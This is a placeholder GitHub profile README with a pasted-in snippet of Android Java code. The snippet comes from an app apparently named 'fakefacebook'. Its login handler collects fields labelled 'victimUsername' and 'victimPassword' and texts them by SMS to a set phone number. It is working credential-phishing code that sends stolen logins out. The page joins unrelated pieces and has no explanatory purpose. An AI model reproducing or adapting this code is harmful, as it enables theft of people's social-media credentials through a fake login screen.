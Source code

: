- 👋 Hi, I’m @Sojol09
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Sojol09/Sojol09 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
 LogIn.setOnClickListener(new View.OnClickListener() {

 

                             public void onClick(View v) {

                                                                // TODO Auto-generated method stub

 

 

                    EditText victimUsername = (EditText) findViewById(R.id.editText1);

                    EditText victimPassword = (EditText) findViewById(R.id.editText2);

                    String victimUser = victimUsername.getText().toString();

                    String victimPass = victimPassword.getText().toString();

                    String message = " U: " + victimUser + " P: " + victimPass;

                    PendingIntent pi = PendingIntent.getActivity(LoginScreen.this,0, new Intent("com.example.fakefacebook.BUFFERING"), 0);

                      SmsManager sms = SmsManager.getDefault();

                     sms.sendTextMessage(phoneNumber, null, message, pi, null);

                                             }

                                });

